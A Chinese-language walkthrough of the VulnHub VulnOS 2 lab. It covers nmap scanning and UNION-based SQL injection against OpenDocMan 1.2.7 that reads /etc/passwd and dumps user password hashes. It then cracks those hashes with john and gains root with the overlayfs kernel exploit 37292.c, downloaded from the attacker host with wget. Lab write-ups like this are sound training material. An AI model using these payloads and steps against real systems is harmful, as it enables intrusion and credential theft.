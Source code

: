 ```yaml
---
title: VulnHub-VulnOS-2
author: AmtuOrRF
date: 2022-03-17
categories: [vulnhub]
tags: [vulnhub]
---
```

*2022 年 3 月 17 日星期四*
> VulnOS 是一系列易受攻击的操作系统，打包为虚拟映像，以增强渗透测试技能**

> 这是版本 2 

> 更小，更少混乱！

> **你的任务是对公司网站进行渗透测试，获取系统的根目录并读取最终标志**

> 注意：当前的键盘偏好是“渗透测试是一个广泛的概念” 


## 目录
- nmap
- sql注入
- 提权

```bash
$ nmap -sV -p- -sC -oN namp 172.16.1.173
Nmap scan report for 172.16.1.173
Host is up (0.00092s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 f5:4d:c8:e7:8b:c1:b2:11:95:24:fd:0e:4c:3c:3b:3b (DSA)
|   2048 ff:19:33:7a:c1:ee:b5:d0:dc:66:51:da:f0:6e:fc:48 (RSA)
|   256 ae:d7:6f:cc:ed:4a:82:8b:e8:66:a5:11:7a:11:5f:86 (ECDSA)
|_  256 71:bc:6b:7b:56:02:a4:8e:ce:1c:8e:a6:1e:3a:37:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: VulnOSv2
6667/tcp open  irc     ngircd
MAC Address: 08:00:27:57:4F:AA (Oracle VirtualBox virtual NIC)
Service Info: Host: irc.example.net; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
22 ssh 端口
80 web
6667 端口不太清楚

## Web
结果一番搜查,在`http://172.16.1.173/jabc/?q=node/7`发现隐藏信息,背景是黑色的，文字的颜色也是黑色的，如果不是`Ctrl + a` 我的发现不了
得到一个目录，访问
`/jabcd0cs/`
`http://172.16.1.173/jabcd0cs/`

在新的页面最下面有一串信息`OpenDocMan v1.2.7`

使用 searchsploit 搜索相关漏洞.
```bash
# searchsploit OpenDocMan 1.2.7 
------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                |  Path
------------------------------------------------------------------------------ ---------------------------------
OpenDocMan 1.2.7 - Multiple Vulnerabilities                                   | php/webapps/32075.txt
------------------------------------------------------------------------------ ---------------------------------
```

找到了一个, 使用 -x 查看内容
```bash
searchsploit -x php/webapps/32075.txt
```

第一个漏洞，sql注入
```bash
1) SQL Injection in OpenDocMan: CVE-2014-1945

The vulnerability exists due to insufficient validation of "add_value" HTTP GET parameter in "/ajax_udf.php" scr
ipt. A remote unauthenticated attacker can execute arbitrary SQL commands in application's database.

The exploitation example below displays version of the MySQL server:

http://[host]/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,v
ersion%28%29,3,4,5,6,7,8,9
```

## sql 注入

读取服务器本地文件`/etc/passwd`
```url
http://172.16.1.173/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION SELECT 1,group_concat(load_file(0x2f6574632f706173737764)),3,4,5,6,7,8,9`
```
竟然可以
```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
messagebus:x:102:106::/var/run/dbus:/bin/false
landscape:x:103:109::
```
好像有一个 root 用户

查看当前数据库下的表
```bash
http://172.16.1.173/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION SELECT 1,group_concat(table_name),3,4,5,6,7,8,9 from information_schema.tables where table_schema=database()
```
结果
```bash
odm_access_log,odm_admin,odm_category,odm_data,odm_department,odm_dept_perms,odm_dept_reviewer,odm_filetypes,odm_log,odm_odmsys,odm_rights,odm_settings,odm_udf,odm_user,odm_user_perms
```
存放用户信息应该在`odm_user`

查看`odm_user`的字段
```bash
http://172.16.1.173/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION SELECT 1,group_concat(column_name),3,4,5,6,7,8,9 from information_schema.columns where table_name=0x6f646d5f75736572
```
这里不能直接使用 `table_name='odm_user'`,需要转成16进制
```bash
id,username,password,department,phone,Email,last_name,first_name,pw_reset_code
```
 
 直接查看 username 和password
 ```bash
 http://172.16.1.173/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION SELECT 1,group_concat(username,0x5e,password),3,4,5,6,7,8,9 from odm_user
 ```

一个2个用户，密码应该是md5加密的
```bash
webmin:b78aae356709f8c31118ea613980954b
guest:084e0343a0486ff05530df6c705c8bb4
```

尝试使用 john 破解 MD5加密的密码，将上面的文件放到 hash.txt 文件里
使用命令`john hash.txt --format=Raw-MD5`
结果瞬间就出来了
```bash
uest            (guest)
webmin1980       (webmin)
```

然后使用 `webmin`:`webmin1980`ssh 登录靶机，刚刚查看`/etc/passwd` 文件的时候并没有发现有`webmin`用户；

然后百度了一下原因：
```test
在用户认证这块，并不一定用户信息必须放置在/etc/passwd，比如数据量大的情况下，我可以将相关信息放置在mysql中（当然也可以是其他放置办法），pam可以满足这个要求.
```

## 37292.c 提权
ssh登录系统后
```bash
$ uname -a
Linux VulnOSv2 3.13.0-24-generic #47-Ubuntu SMP Fri May 2 23:31:42 UTC 2014 i686 i686 i686 GNU/Linux
```
 
 使用searchsploit 搜索内核提权的漏洞文件
```bash
$ searchsploit Linux ubuntu 3.13

Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                                       | linux/local/37292.c
```

KALI:`172.16.1.115`
```bash
$ searchsploit -m linux/local/37292.c
$ python3 -m http.server 80
```

靶机:
提权成功
```bash
$ wget http://172.16.1.115/37292.c
$ gcc 37292.c

$ ./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
# cd /root
# ls
flag.txt
# cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.

What do you think of A.I.?
# id
uid=0(root) gid=0(root) groups=0(root),1001(webmin)
# whoami
root
```

END